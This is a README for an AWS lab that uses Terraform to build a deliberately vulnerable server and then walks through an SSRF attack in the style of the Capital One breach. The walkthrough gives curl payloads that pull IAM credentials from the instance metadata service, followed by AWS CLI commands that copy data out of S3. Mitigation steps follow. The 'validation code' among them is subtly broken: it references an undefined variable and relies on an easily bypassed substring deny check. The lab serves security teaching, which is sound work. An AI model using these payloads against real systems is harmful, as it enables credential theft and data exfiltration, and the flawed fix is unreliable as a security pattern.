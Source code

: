 # SSRF vulnerability demo
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white)![Terraform](https://img.shields.io/badge/terraform-%235835CC.svg?style=for-the-badge&logo=terraform&logoColor=white)

## Demo diagram 
![Diagram](/images/diagram.jpg)

## Purpose
Demonstrate a Server Side Request Forgery (SSRF) attack in the AWS environment, which results in data retrieving from s3, similar to the [CapitalOne breach](https://www.capitalone.com/digital/facts2019/).
The environment will be deployed with Terraform IaC module.



## Prerequisites
* Active AWS account.
* AWS IAM user with AWS credential type: ["Access key - Programmatic access"](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) and [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

*  [Terraform installed](https://learn.hashicorp.com/tutorials/terraform/install-cli)
* Clone this repo to the environment which you run terraform from : 
```console
git clone https://github.com/ramibo/ssrf_aws_demo.git 
```
* [create a key pair ( the public key will be auto imported later to Amazon EC2 by terraform ).](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/create-key-pairs.html)

* In the following files , set the parameters with your own values  :</br></br>__terraform.tfvars__:</br> `availability_zone` , `key_name`,`public_key`</br></br>__providers.tf__ :</br> `shared_config_files`,`shared_credentials_files`, `profile` , `region`



## Running the demo

1. `cd` to the  `ssrf_aws_demo` directory.

2. Run `terraform init` command to prepare your working directory for the next commands.

3. Run `terraform validate` command to check whether the configuration is valid.

4. Run `terraform plan` command to show the changes required by the current configuration.

5. Run `terraform apply` / `terraform apply -auto-approve` to create/update the infrastructure at AWS.

6. If there are no errors from the previous steps , from your terminal, run the following:
<br>__Important__<br> - The `host` can be the created ec2 instance [Public IPv4 address / DNS ](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-instance-addressing.html#concepts-public-addresses).<br>- In the next steps `bash$` prompt with `"command"` is for commands you need to run.

```console
bash$ curl -s http://host:5000 
AWS SSRF IMDSv1 demo
```

7. The `/uptime` page is vulnerable to an SSRF attack: 
We will utilize the URL parameter with the instance metadata URI --> retrieve the attached IAM role --> extract the security credentials as follows: 
```console
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_ssrf_demo_iam_role
{
  "Code" : "Success",
  "LastUpdated" : "2022-12-20T20:56:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIASF",
  "SecretAccessKey" : "Id+zUu",
  "Token" : "IQoJb3JpZ2luX2VjEEUaCXVzLW",
  "Expiration" : "2022-12-21T03:31:14Z"
}
```

8. From the attached role security credentials output you got in your environment,  copy the values of : 
`AccessKeyId` 
`SecretAccessKey` 
`Token`

9. With AWS CLI - configure a new `aws_ssrf_demo_profile_s3` profile:
```console
aws configure --profile aws_ssrf_demo_profile_s3
```

10. Set the following parameters in your `"$HOME/.aws/credentials"` file with the value copied at step 8:
For example,
```console
[aws_ssrf_demo_profile_s3]
aws_access_key_id = ASIASF
aws_secret_access_key = Id+zUu
aws_session_token=IQoJb3JpZ2luX2VjEEUaCXVzLW
```

11. Get the data from s3  :
```console
# Get the list of s3 buckets
bash$ aws s3 ls --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:47 aws-ssrf-demo-s3-bucket

# Get the bucket content
bash$ aws s3 ls aws-ssrf-demo-s3-bucket --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:48        403 aws_ssrf_demo_data_file.json

# Create a directory
bash$ mkdir data_from_s3
bash$ cd data_from_s3/
bash$ ls -l
total 0

# Retrive the JSON file from the bucket
bash$ aws s3 cp s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json /$HOME/data_from_s3/ --profile aws_ssrf_demo_profile_s3 
download: s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json to ./aws_ssrf_demo_data_file.json

bash$ ls -l
total 8
-rw-r--r--  1 user  group  403 Dec 20 22:55 aws_ssrf_demo_data_file.json


!!! The SSRF attack was successful!!!
```

12. Run `terraform destroy` / `terraform destroy -auto-approve` to remove the infrastructure created at AWS.
## Mitigation Steps



1. Enabling IMDSv2 :</br> 
This step enforces requests to use a session token (applied in aws-ec2-metadata-token header ) that can only be used directly from the EC2 instance where that session began.</br> 
This step is the first that should be taken as the IMDSv2 service acts as a parallel layer to any application or web app firewall (WAF) vulnerability/misconfiguration which we might not be aware of yet.</br>  
In addition , the effort to apply it is minor ( updated AWS SDKs and CLIs) compared to the next options.</br>  
For our case (before `terraform destroy` ) run :


```console
aws ec2 modify-instance-metadata-options \
    --instance-id i-1234567898abcdef0 \
    --http-tokens required \
    --http-endpoint enabled
```

For example
```console
bash$ curl -s http://host:5000
AWS SSRF IMDSv1 demo

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role 

bash$ aws ec2 modify-instance-metadata-options --instance-id i-00d044e5f852fd277 --http-tokens required --http-endpoint enabled --profile aws_ssrf_demo_profile

bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>401 - Unauthorized</title>
 </head>
 <body>
  <h1>401 - Unauthorized</h1>
 </body>
</html>

```
[More details on how to configure the instance metadata options](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html).

2. Fix the application running in the ec2 instance by adding validation all client-supplied input data.</br>
For example , 
```python
#vulnerable code
@app.route('/uptime')
def url():
    url = request.args.get('url', '')
    if url:
        content = requests.get(url).text
        return (content)

#validation code
@app.route('/uptime')
def url():
    DENYURL = "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
    url = request.args.get('url', '')
    
    if url:
        if DENYURL in url:
               raise ValueError

        else:
            content = requests.get(valid_url).text
            return (content)
```
3. Reduce permissions in the IAM role towards the s3 bucket.</br>
For example:</br>
```console
{
        Action = [
          "s3:*", #--> set specific action like "s3:ListAllMyBuckets",
        ]
        Effect   = "Allow"
        Resource = "*" #--> set specific bucket name like "arn:aws:s3:::mys3bucket/*"
      },
```


## References
* [FreeCodeCamp - Learn Terraform (and AWS) by Building a Dev Environment – Full Course for Beginners](https://www.youtube.com/watch?v=iRaai1IBlB0)
* [An SSRF, privileged AWS keys and the Capital One breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [How to hack AWS instances that have the metadata service (IMDSv1) enabled](https://alexanderhose.com/how-to-hack-aws-instances-with-the-metadata-service-enabled/)

* https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/